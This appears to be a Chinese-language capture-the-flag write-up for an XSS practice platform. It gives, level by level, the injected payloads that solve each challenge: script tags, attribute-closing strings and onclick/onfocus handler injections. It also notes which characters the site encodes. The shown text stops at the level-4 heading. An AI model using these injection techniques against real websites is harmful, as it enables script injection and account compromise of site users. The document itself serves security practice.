






# XSS练习平台 test.ctf8.com

## level 1



直接加

```
<script>alert(1)</script>
```




## level 2



keyword的值会放在value里面，闭合value

```
"><script>alert(1)</script>
```


## level 3

- `"` 被编码为  & quot
- `/` 保持原样（部分系统可能不编码此字符）
- `>` 被编码为 & gt
- `<` 被编码为 & lt

​       导致<>  无法闭合



不能用 <,>,"  另辟蹊径，用'闭合value，事件用onclick，并闭合value ,注释后面的 ">

```
' onclick=alert(1)//
' onfocus=alert(1)//
```




## level4

过滤了<> ，双引号，单引号

